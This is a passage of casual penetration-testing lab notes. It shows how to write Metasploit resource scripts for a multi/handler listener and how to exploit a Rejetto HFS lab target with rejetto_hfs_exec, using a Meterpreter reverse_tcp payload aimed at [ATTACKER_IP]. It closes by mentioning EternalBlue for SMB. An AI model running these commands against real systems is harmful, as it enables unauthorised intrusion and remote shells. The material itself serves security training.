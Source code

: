 ```bash
$ echo "use multi/handler\nset payload [PAYLOAD]\nset LHOST [ATTACKER_IP]\nset LPORT [ATTACKER_PORT]\nrun" > handler.rc
# you would do this with an editor like vim or something. this is a very simple script.
# if you wanted to make something a little more complex or with added functionality, you can embed ruby into the resource script.
$ echo "use multi/handler\nset payload [PAYLOAD]\nset LHOST <ruby> myrubycode </ruby> [ATTACKER_IP]\nset LPORT [ATTACKER_PORT]\nrun" > ruby_handler.rc
# use the <ruby></ruby> tags.
# imo resource scripts should be called something like sequence scripts, because thats what they are at the end of the day, a sequence
# of commands :)
$ msfconsole -r handler.rc # this way we can open the msfconsole and automatically execute our script.
```

<a id=6></a>
# Exploitation

<a id=6.1></a>
## Windows Exploitation

<a id=6.1.1></a>
### Exploiting an HTTP File Server

...I will not explain what an HTTP file server. It's an HTTP service that works as a file server... directory listing, webdav, you know.

This lab is a funny Rejetto HFS. 

```bash
$ sudo systemctl start postgresql && msfconsole
msf6 > workspace -a HFS
msf6 > setg RHOSTS [TARGET]
msf6 > setg RHOST [TARGET]
msf6 > db_nmap -sS -O -sV [TARGET] 
msf6 > search type:exploit name:rejetto
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > run
meterpreter > sysinfo # :)
meterpreter > exit
msf6 exploit(windows/http/rejetto_hfs_exec) > set paylaod windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST [ATTACKER_IP]
msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT [ATTACKER_PORT]
msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

<a id=6.1.2></a>
### Exploiting SMB

Yes, yes, Eternalblue. MS17-010. What else could it be? Also, I ain't explaining what SMB is either, because if you're here you're supposed
to know what all of this is. If you don't, read the previous shit I uploaded. I love you :)
